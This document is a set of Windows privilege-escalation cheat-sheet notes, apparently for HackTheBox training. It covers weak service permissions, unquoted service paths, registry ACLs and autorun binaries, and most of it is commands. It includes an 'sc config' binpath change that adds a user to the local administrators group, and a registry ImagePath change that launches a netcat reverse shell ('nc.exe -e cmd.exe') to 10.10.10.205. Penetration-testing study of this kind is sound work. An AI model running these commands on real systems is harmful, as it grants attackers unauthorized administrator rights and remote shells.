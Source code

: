 **Weak Service Permissions**

- Download Accesschk : 
```sh
wget https://download.sysinternals.com/files/AccessChk.zip
```

- Checking Permissions : 
```cmd
accesschk.exe /accepteula -quvcw WindscribeService
```
 
- Changing the Service Binary Path :
```cmd
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```

 **Searching for Unquoted Service Paths**

- Querying Service : 
```sh
sc qc SystemExplorerHelpService
```

- Searching for Unquoted Service Paths :
```sh
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

**Permissive Registry ACLs**
 
- Checking for Weak Service ACLs in Registry :
```cmd-session
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

- Changing ImagePath with PowerShell :

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

**Modifiable Registry Autorun Binary**

 - Check Startup Programs : 

```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

- Ressources : 
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries

#### Kernel Exploits
#Kernel_Exploits
